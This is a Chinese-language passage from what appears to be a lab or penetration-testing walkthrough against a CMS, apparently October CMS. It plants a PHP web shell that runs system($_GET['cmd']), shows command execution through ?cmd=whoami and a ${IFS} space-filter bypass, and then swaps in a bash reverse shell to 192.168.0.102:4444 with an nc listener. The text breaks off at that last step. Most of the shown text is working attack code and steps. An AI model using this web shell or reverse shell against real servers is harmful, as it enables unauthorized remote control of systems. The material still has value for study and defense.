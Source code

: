 1.仔细查询一番，发现可以在cms里面进行命令执行~

![image-20210305140456221](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305140456221.png)

2.在code中添加命令执行参数

```text
function onStart()
{
    $this->page["Harveysn0w"] = system($_GET['cmd']);
}
```

![image-20210305141943919](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305141943919.png)

在Markup添加一行进行调用

```text
{{ this.page.Harveysn0w }}
```

![image-20210305142038460](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305142038460.png)

点击首页进行访问~

![image-20210305142226325](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305142226325.png)

接下来，我们用GET请求，尝试命令执行

```text
http://192.168.0.111/?cmd=whoami
```

![image-20210305142334872](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305142334872.png)

命令执行成功！

PS：在命令存在空格时使用${IFS}绕过即可

![image-20210305142441118](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305142441118.png)

## 四、反弹shell

1.修改之前写入的命令执行参数，修改为反弹shell的命令

```text
function onStart()
{
    $this->page["Harveysn0w"] = system('bash -c \'exec bash -i &>/dev/tcp/192.168.0.102/4444 <&1\'');
}
```

![image-20210305142703158](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210305142703158.png)

2.攻击机终端使用nc连接
